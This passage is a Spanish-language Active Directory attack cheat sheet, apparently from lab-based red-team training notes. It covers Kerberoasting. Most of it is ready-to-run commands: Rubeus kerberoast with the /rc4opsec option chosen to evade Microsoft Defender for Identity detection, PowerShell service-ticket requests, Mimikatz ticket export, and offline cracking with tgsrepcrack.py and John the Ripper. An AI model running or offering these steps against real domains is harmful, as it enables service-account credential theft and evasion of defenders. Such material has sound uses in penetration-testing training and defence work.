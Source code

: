 - Para evitar detecciones basadas en Encryption Downgrade for Kerberos EType (utilizado por MDI - ``0x17 significa rc4-hmac``), busque cuentas Kerberoastable que sólo soporten RC4_HMAC.
- ``/rc4opsec`` utiliza el truco ``tgtdeleg`` y se obtienen las cuentas sin AES activado
- ``/rc4opsec`` obtiene hashes sólo para las cuentas que soportan RC4. Esto significa que si ' ``This account supports Kerberos AES 128/256 bit encryption``' está configurado para una cuenta de servicio, el siguiente comando no solicitará sus hashes.
- ``/simple`` mostrará en la consola los hashes uno por línea
- ``/stats`` mostrará estadísticas sobre los usuarios kerberoastable encontrados

```
### Listar estadísticas sobre las cuentas Kerberoastable sin necesidad de enviar solicitudes de tickets
Rubeus.exe kerberoast /stats

### Solicitar Ticket de Servicio (ST)
Rubeus.exe kerberoast /user:serviceaccount /simple

### Listar estadísticas sobre las cuentas Kerberoastable sin AES activado
Rubeus.exe kerberoast /stats /rc4opsec

### Kerberoast sobre la cuenta serviceaccount sin AES activado
Rubeus.exe kerberoast /user:serviceaccount /simple /rc4opsec

### Kerberoast todas las cuentas sin AES activado
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```

Tambien se puede usar la clase KerberosRequestorSecurityToken.NET, Mimikatz y tgsrepcrack.py 

```
### KerberosRequestorSecurityToken .NET de PowerShell para solicitar un ticket.
### Solicitar un ticket para el usuario serviceaccount
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "USSvc/serviceaccount"

### Comprobar si tenemos el ticket
klist

### Volcar los tickets en el disco
. C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"kerberos::list /export"'

### Ahora solo queda crackear el ticket exportado (.kirbi)
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-60210000-studentuserx@USSvc~serviceaccount-US.TECHCORP.LOCAL.kirbi

```
### Cracking

```
Crack ticket usando John the Ripper
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```
## Targeted Kerberoasting 
